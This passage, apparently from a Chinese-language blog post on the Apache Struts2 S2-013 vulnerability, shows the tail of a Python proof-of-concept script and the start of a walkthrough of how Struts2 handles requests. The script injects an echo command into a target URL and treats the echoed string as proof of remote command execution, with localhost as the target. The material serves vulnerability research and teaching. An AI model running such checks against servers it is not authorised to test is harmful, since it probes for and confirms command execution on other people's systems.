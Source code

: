 ```python
        :return str capta: 生成的字符串
        """

        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):

        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        try:
            check_url = self.url + self.payload.format(cmd = urllib.parse.quote(('echo' + ' ' + self.capta), 'utf-8'))
            check_res = requests.get(check_url)
            check_str = self.filter(list(check_res.text))
            if check_res.status_code == 200 and len(check_str) < 100 and self.capta in check_str:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_013 = S2_013_BaseVerify('http://localhost:8080/s2_013_war_exploded/HelloWorld.action')
    S2_013.run()
```

## 漏洞分析

首先Struts2的运行流程是

![流程图](https://taomujian.github.io/img/S2-013/images/流程图.png)

&emsp;&emsp;&emsp;&emsp;1.HTTP请求经过一系列的标准过滤器(Filter)组件链(这些拦截器可以是Struts2 自带的,也可以是用户自定义的,本环境中struts.xml中的package继承自struts-default,struts-default就使用了Struts2自带的拦截器.ActionContextCleanUp主要是清理当前线程的ActionContext、Dispatcher,FilterDispatcher主要是通过ActionMapper来决定需要调用那个Action,FilterDispatcher是控制器的核心,也是MVC中控制层的核心组件),最后到达FilterDispatcher过滤器.

&emsp;&emsp;&emsp;&emsp;2.核心控制器组件FilterDispatcher根据ActionMapper中的设置确定是否需要调用某个Action组件来处理这个HttpServletRequest请求,如果ActionMapper决定调用某个Action组件,FilterDispatcher核心控制器组件就会把请求的处理权委托给ActionProxy组件.
